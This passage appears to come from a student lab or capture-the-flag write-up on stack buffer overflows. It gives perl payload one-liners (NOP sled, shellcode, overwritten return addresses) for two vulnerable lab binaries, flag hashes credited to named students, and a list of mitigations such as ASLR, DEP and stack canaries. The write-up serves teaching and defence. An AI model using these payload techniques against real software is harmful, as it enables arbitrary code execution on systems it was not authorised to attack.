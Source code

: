 | `x/1000xw $esp` | Examine memory |
| `toggleASLR` | Enable/disable ASLR |

**Example Payload Construction:**

```bash
# For helloVuln5
./helloVuln5 $(perl -e 'print "\x90"x500')$(cat shell.bin)$(perl -e 'print "\x90"x51 . "\x10\xcd\xff\xff"')

# For retAddr3
./retAddr3 $(perl -e 'print "A"x615 . "\xc2\x63\x55\x56"')
```


---

## Flags Obtained

### Sam Assessment

- **Kurudunje Deekshith Shetty:**
`58ba28073502498c531f1c53e3797604c209d9813692dc61d685a766797c6d33...`
- **Sri Lasya Varma Indukuri:**
`1974b08e03d35267a66ca44dacc86d7ab582e4c1a34ebf8d19bdd9e259f2978f...`
- **Bhuvaneswar Raju Pericharla:**
`dde660200353d4235cdcf5eb133260698013b313cae66ee4ce2b7bd79d2ac3a0...`


### Merry Assessment

- (Flag contents retrieved from `merryflag.txt` as proof of successful exploitation.)

---

## Mitigations \& Recommendations

To prevent similar vulnerabilities:

- **Use Safe String Functions:** Replace `strcpy`, `gets` with bounded alternatives like `strncpy`, `fgets`.
- **Input Validation:** Always validate user input length.
- **Enable Security Features:**
    - Address Space Layout Randomization (ASLR)
    - Data Execution Prevention (DEP)
    - Stack canaries
- **Regular Security Audits:** Perform code reviews and penetration testing.
- **Education:** Train developers on secure coding practices.

---

## References
